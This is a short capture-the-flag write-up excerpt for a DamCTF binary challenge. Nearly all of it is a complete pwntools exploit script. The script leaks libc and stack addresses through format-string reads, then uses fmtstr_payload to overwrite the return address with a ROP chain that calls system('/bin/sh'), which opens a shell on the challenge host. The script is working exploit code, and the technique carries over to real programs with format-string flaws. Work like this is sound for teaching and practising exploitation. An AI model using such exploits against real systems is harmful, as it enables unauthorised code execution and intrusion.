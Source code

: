 `extra:`here i tried for one_gadget, but there is no satisfying condition here.

## Exploit
```py
 cat solve.py                                                                                                            
#!/usr/bin/env python3

from pwn import *

elf = ELF("main_patched")
libc = ELF("libc-2.24.so")
ld = ELF("ld-2.24.so")

context.binary = elf
context.terminal = ['kitty','-e']

gdbscript = '''
b*main+89
c
'''

if args.REMOTE:
	p = remote('dnd.chals.damctf.xyz',30813)
elif args.GDB:
	p = gdb.debug(elf.path, gdbscript=gdbscript)
else:
	p = process(elf.path)

ld_offset = b'%205$p'
offset = 8
to_libc = 0x3c3770

p.sendline(b'%p')
leak = int(p.recvline(),16)
print(hex(leak))

#0x7ffe59bfdd18
libc.address = leak - to_libc
print(hex(libc.address))

one_gadget_addr1 = 0x4557a  # [rsp+0x30] == NULL
one_gadget_addr2 = 0xf0a51  # [rsp+0x40] == NULL
one_gadget_addr3 = 0xf18cb  # [rsp+0x60] == NULL

p.sendline(b'%2$p')
leak = int(p.recvline(),16)

ret_addr = leak - 24
print("ret addr:",hex(ret_addr))

bin_sh = next(libc.search(b"/bin/sh"))

writes = {
	ret_addr: libc.address + 0x000000000001fd7a,
	ret_addr+8 : bin_sh,
	ret_addr + 16 : libc.sym.system
}

payload = fmtstr_payload(9, writes)

p.sendline(payload)

```